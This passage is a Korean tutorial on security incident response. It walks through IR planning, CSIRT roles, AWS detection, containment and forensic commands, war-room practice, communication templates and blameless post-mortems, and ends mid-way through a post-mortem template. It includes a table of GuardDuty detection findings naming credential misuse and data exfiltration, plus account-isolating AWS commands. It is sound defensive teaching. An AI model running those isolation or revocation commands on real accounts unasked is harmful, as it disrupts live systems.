




# 보안 사고 대응 (Incident Response) 완전 정복

> [이전 강의: DevSecOps](./06-devsecops)에서 보안을 개발 파이프라인에 통합하는 방법을 배웠다면, 이번에는 **그럼에도 불구하고 보안 사고가 터졌을 때 어떻게 대응하는지**를 배워볼게요. 아무리 예방을 잘 해도 사고는 발생해요. 중요한 건 "사고가 안 나는 것"이 아니라 **"사고가 났을 때 얼마나 빨리, 정확하게, 체계적으로 대응하느냐"**예요. [알림 시스템](../08-observability/11-alerting)에서 장애 감지와 에스컬레이션을 배운 내용이 여기서 실전으로 연결돼요.

---

## 🎯 왜 보안 사고 대응을/를 알아야 하나요?

### 일상 비유: 병원 응급실 시스템

보안 사고 대응은 **병원 응급실**과 정확히 같은 구조예요.

- **평소에** 의사, 간호사, 장비, 프로토콜을 준비해둬요 (Preparation)
- 환자가 도착하면 **증상을 빠르게 파악**해요 (Detection & Analysis)
- **출혈을 먼저 멈추고** 생명을 유지해요 (Containment)
- **원인을 찾아 수술**해요 (Eradication)
- 회복실에서 **정상으로 돌아오는지** 모니터링해요 (Recovery)
- 퇴원 후 **왜 이런 상황이 발생했는지** 분석하고 예방책을 세워요 (Lessons Learned)

만약 이 시스템이 없다면?

```
실무에서 보안 사고 대응이 필요한 순간:

"새벽 3시에 AWS 계정에서 수백 개 EC2가 생성되고 있어요"          → 계정 탈취, 즉각 대응 필요
"고객 DB가 유출된 것 같은데 누구에게 보고해야 하는지 몰라요"     → Communication Plan 부재
"랜섬웨어에 감염됐는데 어디까지 퍼졌는지 파악이 안 돼요"         → Containment 실패
"사고 원인을 찾으려고 로그를 봤는데 이미 삭제돼 있어요"           → Forensics 준비 부재
"같은 취약점으로 3번째 사고가 발생했어요"                         → Post-Mortem 부재
"Log4Shell 공지가 떴는데 우리 시스템에 영향이 있는지 모르겠어요"  → 자산 파악 부재
"보안팀이 사고 처리하는데 개발팀은 뭘 해야 하는지 몰라요"        → CSIRT 역할 정의 부재
"사고 보고서를 작성해야 하는데 포맷이 없어요"                     → IR Plan 부재
```

### 대응 체계가 없는 팀 vs 있는 팀

```mermaid
flowchart TD
    subgraph BAD["사고 대응 체계 없는 팀"]
        B1["보안 사고 발생!"] -->|"30분 후 인지"| B2["누가 담당이지?<br/>연락처 찾기"]
        B2 -->|"1시간"| B3["임시로 서버 내림<br/>비즈니스 전체 중단"]
        B3 -->|"원인 파악 시도"| B4["로그가 없어서<br/>추측으로 조치"]
        B4 -->|"총 12시간"| B5["불완전한 복구<br/>같은 사고 반복"]
    end

    subgraph GOOD["사고 대응 체계 갖춘 팀"]
        G1["보안 알림 자동 감지<br/>GuardDuty + SIEM"] -->|"5분 이내"| G2["IR 팀 자동 소집<br/>역할별 즉시 투입"]
        G2 -->|"Playbook 실행"| G3["영향 범위 격리<br/>비즈니스 영향 최소화"]
        G3 -->|"포렌식 증거 확보"| G4["정확한 원인 분석<br/>근본 원인 제거"]
        G4 -->|"총 2시간"| G5["완전 복구 + Post-Mortem<br/>재발 방지 조치"]
    end

    style B5 fill:#e74c3c,color:#fff
    style B4 fill:#e74c3c,color:#fff
    style G5 fill:#27ae60,color:#fff
    style G4 fill:#27ae60,color:#fff
```



### 보안 사고 대응 성숙도 모델

```
Level 0: 대응 계획 없음     ████████████████████████████████████████  사고 터지면 패닉
Level 1: 기본 연락망         ████████████████████████████████          누구에게 전화할지만 앎
Level 2: IR Plan 존재        ████████████████████████                  문서화된 절차 있음
Level 3: 정기 훈련           ████████████████                          Tabletop Exercise 실시
Level 4: 자동화 + 학습       ████████                                  자동 대응 + Post-Mortem 문화

→ Level 2 이상이 되어야 실제 사고에서 당황하지 않아요
→ Level 4가 되면 사고에서 배우고 점점 강해지는 조직이 돼요
```

---

## 🧠 핵심 개념 잡기

### 1. Incident Response 생명주기 (NIST SP 800-61)

> **비유**: 소방서의 화재 대응 절차와 똑같아요



| 단계 | 핵심 질문 | 비유 |
|------|-----------|------|
| **Preparation** | "우리 팀이 사고에 대비되어 있나?" | 소방관 훈련 + 장비 점검 |
| **Detection & Analysis** | "이것이 진짜 사고인가? 범위는?" | 화재 감지기 + 상황 파악 |
| **Containment** | "더 이상 퍼지지 않게 하려면?" | 방화문 닫기 + 구역 격리 |
| **Eradication** | "원인을 완전히 제거했나?" | 불씨 완전 소화 |
| **Recovery** | "정상으로 안전하게 돌아갈 수 있나?" | 건물 안전 점검 후 재입주 |
| **Lessons Learned** | "다음에 같은 일이 일어나지 않으려면?" | 화재 원인 조사 + 방화 설비 개선 |

### 2. 핵심 용어 정리

| 용어 | 의미 | 쉬운 설명 |
|------|------|-----------|
| **IR Plan** | Incident Response Plan | 사고 발생 시 따를 "작전 계획서" |
| **CSIRT** | Computer Security Incident Response Team | 사고 대응 전담 팀 |
| **IoC** | Indicator of Compromise | 해킹 당했다는 증거 (의심 IP, 악성 파일 해시 등) |
| **Forensics** | 디지털 포렌식 | 사고 원인과 범위를 과학적으로 분석 |
| **War Room** | 상황실 | 사고 대응을 위한 임시 지휘본부 |
| **Post-Mortem** | 사후 분석 | 사고 후 "왜 일어났고, 어떻게 막을까" 분석 |
| **Playbook** | 대응 절차서 | 특정 유형의 사고에 대한 단계별 매뉴얼 |
| **Tabletop Exercise** | 도상 훈련 | 실제 사고 없이 시나리오로 하는 모의 훈련 |
| **MTTD** | Mean Time To Detect | 사고 발생부터 탐지까지 평균 시간 |
| **MTTR** | Mean Time To Respond/Recover | 탐지부터 대응/복구까지 평균 시간 |
| **Dwell Time** | 체류 시간 | 공격자가 시스템에 머문 총 시간 |

### 3. CSIRT 조직 구성

> **비유**: 영화 촬영 현장 — 감독, 촬영감독, 조명감독이 각자 역할이 있듯이



| 역할 | 책임 | 비유 |
|------|------|------|
| **Incident Commander** | 전체 대응 조율, 의사결정, 에스컬레이션 | 소방 지휘관 |
| **Technical Lead** | 기술 조사 방향 설정, 포렌식 총괄 | 수사관 |
| **Communications Lead** | 내부 보고, 외부 고객/언론 소통 | 대변인 |
| **Operations Lead** | 시스템 격리, 복구, 모니터링 | 현장 복구팀장 |
| **Scribe** (기록 담당) | 타임라인 기록, 의사결정 내역 문서화 | 서기 |

---

## 🔍 하나씩 자세히 알아보기

### Phase 1: Preparation (준비)

> "사고가 터지기 전에 하는 모든 준비가 실전의 80%를 결정해요"

#### IR Plan 작성

IR Plan은 사고 대응의 "헌법"이에요. 최소한 다음 내용이 포함되어야 해요.

```yaml
# incident-response-plan.yaml (개념 예시)
ir_plan:
  version: "2.0"
  last_updated: "2024-12-01"
  owner: "Security Team"

  # 1. 사고 분류 기준
  classification:
    severity_levels:
      - name: "SEV1 - Critical"
        description: "고객 데이터 유출, 전체 서비스 중단, 랜섬웨어"
        response_time: "15분 이내"
        escalation: "C-Level 즉시 보고"
        war_room: true

      - name: "SEV2 - High"
        description: "부분 서비스 영향, 내부 시스템 침해"
        response_time: "30분 이내"
        escalation: "VP Engineering 보고"
        war_room: true

      - name: "SEV3 - Medium"
        description: "의심 활동 탐지, 취약점 발견"
        response_time: "4시간 이내"
        escalation: "Security Team Lead 보고"
        war_room: false

      - name: "SEV4 - Low"
        description: "정보성 보안 이벤트, 정책 위반"
        response_time: "24시간 이내"
        escalation: "보안팀 내부 처리"
        war_room: false

  # 2. 연락망
  contacts:
    incident_commander:
      primary: "보안팀장 (010-xxxx-xxxx)"
      backup: "CTO (010-xxxx-xxxx)"
    technical_lead:
      primary: "시니어 보안 엔지니어"
      backup: "SRE 리드"
    communications:
      internal: "HR + 경영진"
      external: "PR팀 + 법무팀"
      regulator: "KISA (한국인터넷진흥원)"

  # 3. 에스컬레이션 경로
  escalation:
    - trigger: "SEV1 선언"
      actions:
        - "PagerDuty로 IR팀 전원 호출"
        - "Slack #incident-war-room 채널 생성"
        - "Zoom War Room 자동 개설"
        - "경영진 핫라인 알림"

  # 4. 외부 리소스
  external_resources:
    forensics_vendor: "외부 포렌식 업체 연락처"
    legal_counsel: "법률 자문 연락처"
    insurance: "사이버 보험 연락처"
    regulator: "KISA 신고 (118)"
```

#### 사고 유형별 Playbook

각 유형의 사고에 대해 **구체적인 대응 절차**를 미리 문서화해둬요.

```
📋 Playbook 목록 예시:

1. 계정 탈취 (Account Compromise)
   → IAM 키 비활성화 → 세션 무효화 → CloudTrail 분석

2. 랜섬웨어 감염 (Ransomware)
   → 네트워크 격리 → 감염 범위 파악 → 백업 복구

3. 데이터 유출 (Data Breach)
   → 유출 경로 차단 → 영향 범위 파악 → 규제 기관 신고

4. DDoS 공격
   → Shield/WAF 활성화 → 트래픽 분석 → ISP 협조

5. 내부자 위협 (Insider Threat)
   → 접근 권한 즉시 회수 → 활동 로그 보전 → HR/법무 협조

6. 공급망 공격 (Supply Chain)
   → 의존성 감사 → 영향 범위 파악 → 패치/롤백
```

#### CSIRT 구성과 운영

```
CSIRT 구성 시 핵심 원칙:

1. 전담 인력 vs 겸임 인력
   ┌─────────────────────────────────────────────────┐
   │ 소규모 팀 (< 50명)                              │
   │ → 보안 챔피언 모델: 각 팀에서 1명씩 겸임         │
   │ → 평소엔 개발/운영, 사고 시 IR 역할 수행         │
   ├─────────────────────────────────────────────────┤
   │ 중규모 팀 (50-200명)                             │
   │ → 소규모 전담 보안팀 + 필요 시 각 팀 지원         │
   ├─────────────────────────────────────────────────┤
   │ 대규모 팀 (200명+)                               │
   │ → 전담 CSIRT + SOC (Security Operations Center)  │
   │ → 24/7 모니터링 체계                              │
   └─────────────────────────────────────────────────┘

2. On-call 로테이션
   → 보안 On-call은 SRE On-call과 별도로 운영
   → 주간 로테이션, 최소 4명 이상으로 번아웃 방지

3. 정기 훈련
   → 월 1회 Tabletop Exercise
   → 분기 1회 실전 모의훈련
   → 연 1회 전사 대규모 훈련
```

### Phase 2: Detection & Analysis (탐지 및 분석)

> "빨리 발견할수록 피해가 줄어요. IBM 보고서에 따르면 탐지까지 평균 197일이 걸려요."

#### 탐지 소스

```
┌──────────────────────────────────────────────────────────┐
│                    탐지 소스 계층                          │
├──────────────────────────────────────────────────────────┤
│                                                          │
│  [자동 탐지]                                              │
│  ├── SIEM (Security Information & Event Management)      │
│  ├── IDS/IPS (침입 탐지/차단 시스템)                      │
│  ├── EDR (Endpoint Detection & Response)                 │
│  ├── AWS GuardDuty (위협 탐지)                            │
│  ├── AWS Security Hub (통합 보안 현황)                    │
│  └── 이상 행위 탐지 (UEBA)                               │
│                                                          │
│  [사람 기반 탐지]                                         │
│  ├── 보안팀 모니터링                                      │
│  ├── 직원 보고 (피싱 메일 신고 등)                        │
│  ├── 고객 불만 (계정 이상, 데이터 노출)                   │
│  └── 외부 제보 (보안 연구자, 버그 바운티)                 │
│                                                          │
│  [외부 인텔리전스]                                        │
│  ├── 위협 인텔리전스 피드 (Threat Intelligence)           │
│  ├── 다크웹 모니터링                                      │
│  ├── CERT/CC 공지                                        │
│  └── 벤더 보안 권고 (Security Advisory)                   │
│                                                          │
└──────────────────────────────────────────────────────────┘
```

#### 사고 분석 흐름

```
사고 분석 5W1H:

Who    → 누가 했는가? (공격자 프로파일, 내부자/외부자)
What   → 무엇이 발생했는가? (공격 유형, 영향 범위)
When   → 언제 시작/탐지되었는가? (타임라인)
Where  → 어디에서 발생했는가? (영향 받은 시스템)
Why    → 왜 가능했는가? (근본 원인, 취약점)
How    → 어떻게 침입했는가? (공격 벡터, 기법)
```

#### AWS 탐지 도구 활용

```bash
# GuardDuty - 위협 탐지 서비스
# 활성화 (한 번만 하면 됨)
aws guardduty create-detector \
  --enable \
  --finding-publishing-frequency FIFTEEN_MINUTES

# 현재 탐지된 위협 조회
aws guardduty list-findings \
  --detector-id <detector-id> \
  --finding-criteria '{
    "Criterion": {
      "severity": {
        "Gte": 7
      }
    }
  }'

# 특정 Finding 상세 조회
aws guardduty get-findings \
  --detector-id <detector-id> \
  --finding-ids <finding-id>
```

```bash
# Security Hub - 통합 보안 현황
# 보안 표준 준수 현황 조회
aws securityhub get-findings \
  --filters '{
    "SeverityLabel": [{"Value": "CRITICAL", "Comparison": "EQUALS"}],
    "WorkflowStatus": [{"Value": "NEW", "Comparison": "EQUALS"}]
  }' \
  --max-items 10

# Detective - 보안 조사 도구
# 특정 IP에 대한 조사 시작
aws detective start-investigation \
  --graph-arn <graph-arn> \
  --entity-arn <entity-arn>
```

```
GuardDuty가 탐지하는 주요 위협 유형:

┌──────────────────┬──────────────────────────────────────┐
│ Finding Type     │ 설명                                  │
├──────────────────┼──────────────────────────────────────┤
│ Recon:EC2/       │ EC2에서 포트 스캔 활동 탐지            │
│ PortProbeUnprotec│                                      │
├──────────────────┼──────────────────────────────────────┤
│ UnauthorizedAcces│ 탈취된 자격 증명으로 API 호출           │
│ s:IAMUser/       │                                      │
│ MaliciousIPCaller│                                      │
├──────────────────┼──────────────────────────────────────┤
│ CryptoCurrency:  │ EC2에서 암호화폐 채굴 활동             │
│ EC2/BitcoinTool  │                                      │
├──────────────────┼──────────────────────────────────────┤
│ Exfiltration:S3/ │ S3 버킷에서 비정상적 데이터 전송       │
│ AnomalousBehavior│                                      │
├──────────────────┼──────────────────────────────────────┤
│ Impact:EC2/      │ EC2가 DDoS 공격에 사용되고 있음        │
│ PortSweep        │                                      │
└──────────────────┴──────────────────────────────────────┘
```

### Phase 3: Containment (격리)

> "불이 번지는 것을 먼저 막아야 해요. 원인 조사는 그 다음이에요."

격리에는 **단기 격리**와 **장기 격리** 두 가지가 있어요.

```
단기 격리 (Short-term Containment) — "지금 당장 출혈을 멈춰!"
────────────────────────────────────────────────────
• 감염된 EC2 인스턴스의 Security Group을 격리용으로 교체
• 탈취된 IAM 키 즉시 비활성화
• 의심 사용자 세션 전체 무효화
• 영향 받은 서비스 트래픽 차단 (WAF Rule 추가)
• DNS 변경으로 트래픽 우회

장기 격리 (Long-term Containment) — "안전한 환경을 만들어서 조사"
────────────────────────────────────────────────────
• 격리된 VPC에서 포렌식용 이미지 분석
• 클린 시스템으로 서비스 임시 전환
• 네트워크 세그멘테이션 강화
• 추가 모니터링 룰 배포
```

#### AWS에서의 격리 실전

```bash
# 1. 감염 의심 EC2 격리 — Security Group 교체
# 격리용 SG 생성 (인바운드/아웃바운드 모두 차단)
aws ec2 create-security-group \
  --group-name "forensic-isolation" \
  --description "Isolation SG for incident response" \
  --vpc-id vpc-12345

# 모든 아웃바운드 트래픽 차단 (기본 아웃바운드 규칙 제거)
aws ec2 revoke-security-group-egress \
  --group-id sg-isolation-id \
  --ip-permissions '[{"IpProtocol": "-1", "FromPort": -1, "ToPort": -1, "IpRanges": [{"CidrIp": "0.0.0.0/0"}]}]'

# 포렌식 분석용 인바운드만 허용 (특정 포렌식 서버에서만)
aws ec2 authorize-security-group-ingress \
  --group-id sg-isolation-id \
  --protocol tcp \
  --port 22 \
  --cidr 10.0.99.100/32  # 포렌식 분석 서버

# 감염 인스턴스에 격리 SG 적용
aws ec2 modify-instance-attribute \
  --instance-id i-compromised123 \
  --groups sg-isolation-id

# 2. IAM Access Key 즉시 비활성화
aws iam update-access-key \
  --user-name compromised-user \
  --access-key-id AKIA... \
  --status Inactive

# 3. 모든 활성 세션 무효화 (STS 토큰 무효화)
aws iam put-role-policy \
  --role-name compromised-role \
  --policy-name DenyAllAfterCompromise \
  --policy-document '{
    "Version": "2012-10-17",
    "Statement": [{
      "Effect": "Deny",
      "Action": "*",
      "Resource": "*",
      "Condition": {
        "DateLessThan": {
          "aws:TokenIssueTime": "2024-12-01T12:00:00Z"
        }
      }
    }]
  }'
```

### Phase 4: Eradication (제거)

> "출혈을 멈춘 뒤에 종양을 제거하는 단계예요"

```
제거 단계 체크리스트:

□ 공격 벡터 (침입 경로) 완전히 차단했는가?
  - 취약점 패치 적용
  - 악용된 설정 오류 수정
  - 유출된 자격 증명 전체 교체

□ 공격자의 지속성 (Persistence) 제거했는가?
  - 백도어 제거
  - 악성 크론잡/스케줄 태스크 제거
  - 변조된 시스템 파일 복원
  - 공격자가 만든 IAM 사용자/역할 삭제

□ 감염된 시스템 클린업 또는 재구축했는가?
  - 감염 확인된 서버 → 새로 프로비저닝 (재구축 권장)
  - IaC(Infrastructure as Code)로 클린 인프라 배포
  - 컨테이너 → 새 이미지로 재배포

□ IoC (Indicator of Compromise) 기반 스캔 완료했는가?
  - 악성 IP/도메인 차단 리스트 업데이트
  - 악성 파일 해시 기반 전체 시스템 스캔
  - 의심 패턴 모니터링 룰 추가
```

### Phase 5: Recovery (복구)

> "환자가 퇴원하기 전에 충분히 회복했는지 확인하는 단계예요"

```
복구 단계 원칙:

1. 점진적 복구 (Gradual Recovery)
   ┌─────────┐    ┌─────────┐    ┌─────────┐    ┌─────────┐
   │ 내부     │ →  │ 스테이징 │ →  │ 일부     │ →  │ 전체    │
   │ 테스트   │    │ 검증     │    │ 트래픽   │    │ 서비스   │
   └─────────┘    └─────────┘    └─────────┘    └─────────┘

2. 강화된 모니터링 (Enhanced Monitoring)
   → 복구 후 최소 72시간은 강화된 모니터링 유지
   → 동일 IoC 패턴 감시 알림 설정
   → 로그 수집 레벨 일시적으로 상향 (DEBUG 레벨)

3. 복구 검증 체크리스트
   □ 비즈니스 기능 정상 동작 확인
   □ 보안 통제 정상 작동 확인 (WAF, SG, IAM)
   □ 모든 자격 증명 교체 완료 확인
   □ 취약점 패치 적용 확인
   □ 백업 무결성 검증 완료
```

### Phase 6: Lessons Learned (교훈) & Post-Mortem

> "같은 실수를 두 번 하지 않는 것이 진짜 실력이에요"

이 부분은 아래 "Post-Mortem / Blameless Retrospective" 섹션에서 자세히 다룰게요.

---

### Digital Forensics 기초

> **비유**: 범죄 현장의 CSI(과학수사대)처럼, 디지털 증거를 오염 없이 수집하고 분석하는 과정이에요

#### 포렌식의 핵심 원칙

```
디지털 포렌식 4대 원칙:

1. 증거 무결성 (Integrity)
   → 원본 데이터를 절대 변경하지 않아요
   → 해시값(SHA-256)으로 무결성 검증

2. 증거 보전 (Preservation)
   → 휘발성 높은 것부터 수집 (메모리 → 디스크 → 네트워크 로그)
   → Chain of Custody (증거 관리 체계) 유지

3. 분석 재현성 (Reproducibility)
   → 동일한 증거에 동일한 분석을 수행하면 동일한 결과
   → 분석 과정 전체를 문서화

4. 적법성 (Legality)
   → 법적 절차를 준수한 증거 수집
   → 개인정보 보호법 준수
```

#### 증거 수집 우선순위 (Order of Volatility)

```
휘발성 순서 (가장 먼저 수집해야 하는 것부터):

1. 🔴 CPU 레지스터, 캐시         → 전원 끄면 즉시 소멸
2. 🔴 메모리 (RAM)               → 전원 끄면 즉시 소멸
3. 🟡 네트워크 연결 상태          → 시간이 지나면 변화
4. 🟡 실행 중인 프로세스          → 시간이 지나면 변화
5. 🟢 디스크 데이터               → 비교적 안정적
6. 🟢 원격 로그 (CloudWatch 등)   → 보존 정책에 따라 삭제될 수 있음
7. 🟢 백업 데이터                 → 장기 보존
```

#### AWS 환경에서의 포렌식

```bash
# ===== 1. 메모리 덤프 (EC2 인스턴스) =====
# SSM을 통해 메모리 덤프 수집
# (사전에 LiME 또는 AVML 설치 필요)
aws ssm send-command \
  --instance-ids i-compromised123 \
  --document-name "AWS-RunShellScript" \
  --parameters 'commands=[
    "sudo /opt/avml/avml /tmp/memory-dump.lime",
    "sha256sum /tmp/memory-dump.lime > /tmp/memory-dump.sha256",
    "aws s3 cp /tmp/memory-dump.lime s3://forensic-evidence-bucket/case-2024-001/",
    "aws s3 cp /tmp/memory-dump.sha256 s3://forensic-evidence-bucket/case-2024-001/"
  ]'

# ===== 2. 디스크 이미지 (EBS 스냅샷) =====
# 감염된 인스턴스의 EBS 볼륨 스냅샷
aws ec2 create-snapshot \
  --volume-id vol-compromised123 \
  --description "Forensic snapshot - Case 2024-001" \
  --tag-specifications 'ResourceType=snapshot,Tags=[
    {Key=Purpose,Value=Forensics},
    {Key=CaseId,Value=2024-001},
    {Key=CollectedBy,Value=security-team},
    {Key=CollectedAt,Value=2024-12-01T10:30:00Z}
  ]'

# 스냅샷에서 새 볼륨 생성 (격리된 포렌식 계정에서)
aws ec2 create-volume \
  --snapshot-id snap-forensic123 \
  --availability-zone ap-northeast-2a \
  --tag-specifications 'ResourceType=volume,Tags=[
    {Key=Purpose,Value=ForensicAnalysis},
    {Key=CaseId,Value=2024-001}
  ]'

# ===== 3. 로그 보전 =====
# CloudTrail 로그 보전 (S3에 이미 저장되어 있어야 함)
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=EventSource,AttributeValue=iam.amazonaws.com \
  --start-time "2024-11-28T00:00:00Z" \
  --end-time "2024-12-01T23:59:59Z" \
  --max-results 100 > cloudtrail-iam-events.json

# VPC Flow Logs 조회
aws logs filter-log-events \
  --log-group-name "/aws/vpc/flowlogs" \
  --start-time 1701100800000 \
  --end-time 1701273600000 \
  --filter-pattern "{ $.srcAddr = \"악성IP\" }" > vpc-flowlogs-suspicious.json

# CloudWatch Logs 특정 기간 보전
aws logs create-export-task \
  --task-name "forensic-export-case-2024-001" \
  --log-group-name "/app/production" \
  --from 1701100800000 \
  --to 1701273600000 \
  --destination "forensic-evidence-bucket" \
  --destination-prefix "case-2024-001/cloudwatch-logs"
```

#### 포렌식 분석 환경 구축

```
포렌식 전용 AWS 계정 구조:

┌─────────────────────────────────────────────────┐
│  Production Account                              │
│  (사고 발생 계정)                                │
│                                                  │
│  스냅샷 생성 → 공유 →                            │
└─────────────────┬───────────────────────────────┘
                  │ Cross-account 스냅샷 공유
                  ▼
┌─────────────────────────────────────────────────┐
│  Forensic Account (격리된 분석 계정)              │
│                                                  │
│  ┌───────────────────┐  ┌─────────────────────┐ │
│  │ 격리된 VPC         │  │ 분석 도구            │ │
│  │ - 인터넷 차단      │  │ - Volatility3       │ │
│  │ - 내부만 통신      │  │ - Autopsy           │ │
│  │                   │  │ - SIFT Workstation  │ │
│  │ 포렌식 EC2        │  │ - log2timeline      │ │
│  │ (스냅샷 마운트)    │  │ - AWS Athena        │ │
│  └───────────────────┘  └─────────────────────┘ │
│                                                  │
│  S3: 증거 저장소 (Object Lock 활성화)            │
│  → Write-Once-Read-Many (WORM) 보호              │
└─────────────────────────────────────────────────┘
```

---

### War Room 운영

> **비유**: 전쟁 영화에서 보는 작전 지휘실과 같아요. 모든 정보가 한곳에 모이고, 빠른 의사결정이 이뤄지는 곳이에요.

#### War Room 개설 기준

```
War Room이 필요한 경우:

✅ SEV1, SEV2 사고
✅ 고객 데이터 유출 가능성
✅ 서비스 전체 또는 핵심 기능 영향
✅ 외부 공격이 진행 중인 경우
✅ 규제 기관 보고가 필요한 경우

❌ War Room이 불필요한 경우:
❌ SEV3, SEV4 사고 (보안팀 내부 처리)
❌ 이미 자동화된 대응으로 해결된 경우
```

#### War Room 운영 원칙

```
War Room 운영 체크리스트:

1. 즉시 설정 (사고 선언 후 15분 이내)
   □ Slack 채널 생성: #incident-YYYY-MM-DD-제목
   □ 화상회의 링크 공유 (Zoom/Google Meet)
   □ 타임라인 문서 생성 (Google Docs / Notion)
   □ 역할 할당 (IC, Tech Lead, Comms Lead, Scribe)

2. 커뮤니케이션 규칙
   □ 모든 발언은 Slack에 기록 (음성 회의 내용도)
   □ 15분마다 상태 업데이트
   □ 중요 의사결정은 반드시 기록
   □ 외부 소통은 Comms Lead를 통해서만

3. 타임라인 기록 (Scribe의 역할)
   ┌──────────────────────────────────────────────┐
   │ 시각      │ 이벤트                            │
   ├──────────────────────────────────────────────┤
   │ 02:15 AM  │ GuardDuty alert: 비정상 API 호출  │
   │ 02:18 AM  │ On-call 엔지니어 알림 수신         │
   │ 02:25 AM  │ SEV1 선언, War Room 개설           │
   │ 02:30 AM  │ IC: 홍길동, Tech Lead: 김철수       │
   │ 02:35 AM  │ IAM 키 3개 비활성화                │
   │ 02:45 AM  │ 영향 범위: ap-northeast-2 전체     │
   │ 03:00 AM  │ 격리 완료, 포렌식 시작             │
   │ ...       │ ...                               │
   └──────────────────────────────────────────────┘

4. 교대 (사고가 장기화될 경우)
   □ 4시간마다 교대 계획 수립
   □ 인수인계 시 반드시 브리핑 (현재 상황, 진행 중인 작업, 다음 단계)
   □ 교대 시점을 타임라인에 기록
```

---

### Communication Plan (소통 계획)

> "사고 대응의 절반은 기술이고, 나머지 절반은 소통이에요"



#### 소통 템플릿

```markdown
# 경영진 보고 템플릿 (Internal)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
사고 ID: INC-2024-001
심각도: SEV1
상태: [탐지/격리/제거/복구] 중

## 요약
- [한 줄 요약: 무슨 일이, 어디서, 언제]

## 영향
- 영향 받은 서비스: [서비스명]
- 영향 받은 고객 수: [예상 수치]
- 비즈니스 영향: [매출, 평판 등]

## 현재 상태
- [현재 진행 중인 조치]
- [다음 단계]

## 예상 복구 시간
- [ETA 또는 "평가 중"]

## 필요한 의사결정
- [경영진 판단이 필요한 사항]
```

```markdown
# 고객 안내 템플릿 (External)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
제목: [서비스명] 보안 관련 안내

안녕하세요, [회사명]입니다.

[날짜]에 [서비스명]에서 보안 이벤트가 발생하여 안내드립니다.

## 무엇이 발생했나요?
- [사실 기반 설명, 추측 배제]

## 고객님에게 미치는 영향
- [구체적 영향 범위]
- [개인정보 관련이면 구체적으로 어떤 정보인지]

## 우리가 한 조치
- [이미 완료한 조치]
- [진행 중인 조치]

## 고객님이 하실 일
- [비밀번호 변경 등 고객 행동 가이드]

## 추가 문의
- [연락처]

투명하게 소통하겠습니다.
```

---

### Post-Mortem / Blameless Retrospective

> **핵심 원칙**: "WHO(누가) 잘못했는지"가 아니라 "WHAT(무엇이) 잘못되었고 HOW(어떻게) 고칠 수 있는지"에 집중해요

#### Blameless Culture가 중요한 이유

```
❌ Blame Culture (비난 문화):
"새벽에 김 엔지니어가 설정을 잘못해서 사고가 터졌습니다"
→ 결과: 사람들이 실수를 숨기고, 보고를 꺼리고, 조직이 학습하지 못해요

✅ Blameless Culture (비난 없는 문화):
"새벽 배포 시 설정 검증 프로세스가 없어서 잘못된 설정이 프로덕션에 반영되었습니다"
→ 결과: 사람들이 솔직하게 공유하고, 시스템을 개선하고, 조직이 강해져요

핵심 마인드셋:
"사람이 실수한 것이 아니라, 시스템이 실수를 허용한 것이다"
```

#### Post-Mortem 문서 템플릿

```markdown
# Post-Mortem: [사고 제목]

## 기본 정보
- 사고 ID: INC-2024-001
- 날짜: 2024-12-01
- 심각도: SEV1
- 작성자: [이름]
- 참여자: [IR 참여 전원]

## 요약
[2-3문장으로 사고 전체를 요약]

## 영향
- 지속 시간: [탐지 ~ 완전 복구]
- 영향 받은 고객: [수치]
- 비즈니스 영향: [매출 손실, SLA 위반 등]
- 데이터 영향: [유출/변조/삭제 여부]

## 타임라인 (UTC)
| 시각 | 이벤트 |
|------|--------|
| 02:15 | GuardDuty에서 비정상 API 호출 탐지 |
| 02:18 | PagerDuty → On-call 엔지니어 알림 |
